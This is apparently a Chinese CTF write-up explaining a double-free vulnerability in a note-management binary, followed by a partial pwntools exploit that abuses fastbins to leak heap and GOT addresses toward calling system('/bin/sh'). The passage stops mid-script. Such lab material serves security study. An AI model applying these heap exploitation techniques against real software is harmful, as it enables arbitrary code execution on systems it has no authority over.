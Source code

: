 ```
删除note时，只需指定note序号，然而再删除note时，并没有检查对应的notes[n]的inuse标志是否为1，而且删除note后并未清空note结构中的内容指针，因此可以对任意空闲的note做多次free。
此处存在double free漏洞。

打印note列表 - list_note()
打印note功能可以列出所有note的内容。(list_note可以用来泄露信息)
```

**方法1: 在堆上伪造fastchunk**

> 调试环境： Ubuntu 16.04 x64 (libc-2.23)

完整EXP如下

```
#!/usr/bin/env python
# -*- coding: utf-8 -*-
from pwn import *
context.log_level = 'debug'
#context.terminal = ['tmux', 'split', '-h']
elf = ELF('test')
libc = elf.libc
p = process(elf.path)
#gdb.attach(p)

def add_note(content):
    p.sendlineafter(': ', '2')
    p.sendlineafter(': ', str(len(content)))
    p.sendafter(': ', content)

def del_note(idx):
    p.sendlineafter(': ', '4')
    p.sendlineafter(': ', str(idx))

def edit_note(idx, content):
    p.sendlineafter(': ', '3')
    p.sendlineafter(': ', str(idx))
    p.sendlineafter(': ', str(len(content)))
    p.sendafter(': ', content)

def list_node():
    p.sendlineafter(': ', '1')

add_note('A' * 0x30)                 # note0 = chunk0
add_note('B' * 0x30)                 # note1 = chunk1
add_note('C' * 0x30)                 # note2 = chunk2
add_note('/bin/sh\0' + '\0' * 0x28)  # note3 = chunk3, 稍后用于system('/bin/sh')
add_note('E' * 0x41)                 # note4 = chunk4, 0x41刚好是伪造用的chunk size
raw_input('step1 success')
del_note(0)                          # free(chunk0)   fastbin: chunk0->NULL
del_note(1)                          # free(chunk1)   fastbin: chunk1->chunk0->NULL
add_note('E' * 0x30)                 # note0 = chunk1 fastbin: chunk0->NULL
raw_input('step2 success')
del_note(2)                          # free(chunk2)   fastbin: chunk2->chunk0->NULL
del_note(1)                          # free(chunk1)   fastbin: chunk1->chunk2->chunk0->NULL
list_node()                          # leak chunk1->fd = addr_of_chunk2
p.recvuntil('0. ')
heapbase = u64(p.recvuntil('3. ')[:-4].ljust(8, '\0')) - 0x18a0
raw_input('step3 success')
edit_note(0, p64(heapbase + 0x80) + 'F' * 0x28)     # fastbin: chunk1->(heap+0x80)
add_note('F' * 0x30)                 # 1 = chunk1
add_note(p64(elf.got['free']) + p64(1) + p64(8) + p64(elf.got['free']) + '\0' * 0x10)
raw_input('step4 success')
list_node()                          # leak free@got
p.recvuntil('4. ')
```